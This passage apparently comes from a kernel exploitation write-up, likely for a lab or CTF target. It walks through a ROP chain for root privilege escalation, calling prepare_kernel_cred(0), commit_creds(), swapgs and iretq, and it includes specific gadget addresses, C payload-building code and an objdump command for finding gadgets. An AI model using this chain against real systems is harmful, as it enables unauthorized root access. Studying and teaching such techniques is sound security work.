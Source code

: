 So my first attempt was a fail. At least we now know that even though we have the power to overwrite `CR4` in `kernel-mode`, the kernel developers have already awared of it and prohibited us from using such thing to exploit the kernel. Let’s move on to develop a stronger exploitation that will actually work.

In this second attempt, we will get rid of the idea of getting root privileges by running our own code completely, and try to achieve it by using ROP only. The plan is straightforward:

1.  ROP into `prepare_kernel_cred(0)`.
2.  ROP into `commit_creds()`, with the return value from step 1 as parameter.
3.  ROP into `swapgs ; ret`.
4.  ROP into `iretq` with the stack setup as `RIP|CS|RFLAGS|SP|SS`.

The ROP chain itself is not complicated at all, but there are still some hiccups in building it. Firstly, as I mentioned above, there are a lot of gadgets that `ROPgadget` found but are unusable. Therefore, I had to do a lot of trials-and-errors and finally ended up using these gadgets to move the return value in step 1 (stored in `rax`) into `rdi` to pass to `commit_creds()`, they might seem a bit bizarre, but all of the ordinary gadgets that I tried are non-executable:

```
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret


```

The goal with these 3 gadgets is to move `rax` into `rdi` without taking the `jne`. So I have to pop the value 8 into `rdx`, then return to a `cmp` instruction to make the comparison equals, which will make sure that we won’t jump to `jne` branch:

```
...
payload[off++] = pop_rdx_ret;
payload[off++] = 0x8; // rdx <- 8
payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
payload[off++] = 0x0; // dummy rbx
payload[off++] = 0x0; // dummy rbp
payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
payload[off++] = 0x0; // dummy rbx
payload[off++] = 0x0; // dummy rbp
payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
...


```

Secondly, it seems that `ROPgadget` can find `swapgs` just fine, but it can’t find `iretq`, so I have to use `objdump` to look for it:

```
objdump -j .text -d ~/vmlinux | grep iretq | head -1
-> ffffffff8100c0d9:       48 cf                   iretq  


```
